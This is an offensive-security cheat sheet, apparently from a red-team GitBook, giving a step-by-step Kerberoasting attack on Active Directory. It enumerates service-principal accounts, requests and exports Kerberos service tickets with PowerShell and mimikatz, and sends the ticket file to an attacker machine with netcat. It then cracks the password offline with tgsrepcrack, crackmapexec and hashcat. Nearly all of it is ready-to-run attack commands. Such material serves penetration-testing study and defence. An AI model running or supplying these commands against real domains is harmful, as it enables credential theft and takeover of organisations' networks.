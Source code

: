 # Kerberosting

The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline

{% hint style="warning" %}
To perfom this attack, you need an account on the domain.
{% endhint %}

{% hint style="warning" %}
Kerberosting needs at least one user account with `ServicePrincipalName` attribute set. only user accounts with this property set are likely susceptible to kerberosting.
{% endhint %}

#### <mark style="color:green;">setup a listener to reveive the hash for cracking:</mark>

```
nc -lvp 443 > kerberoast.bin
```

### <mark style="color:orange;">Extracting the Ticket</mark>

Attacker enumerating user accounts with `serverPrincipalName` attribute set:

```
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```

![](<../../../.gitbook/assets/image (48).png>)

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```
setspn -T offense -Q */*
```

![](<../../../.gitbook/assets/image (18).png>)

Attacker requesting a kerberos ticket (TGS) for a user account with servicePrincipalName set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

```csharp
mimikatz # kerberos::list /export
```

![](<../../../.gitbook/assets/image (54).png>)

Attacker sends the exported service ticket to attacking machine for offline cracking:

```
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```

### <mark style="color:orange;">Cracking the Ticket</mark>

Attacker brute forces the password of the service ticket:

```
python2 tgsrepcrack.py pwd kerberoast.bin
```

## <mark style="color:red;">Using crackmapexec</mark>

```
cme ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```

#### cracking with hashcat

```
/hashcat -m13100 output.txt wordlist.txt
```
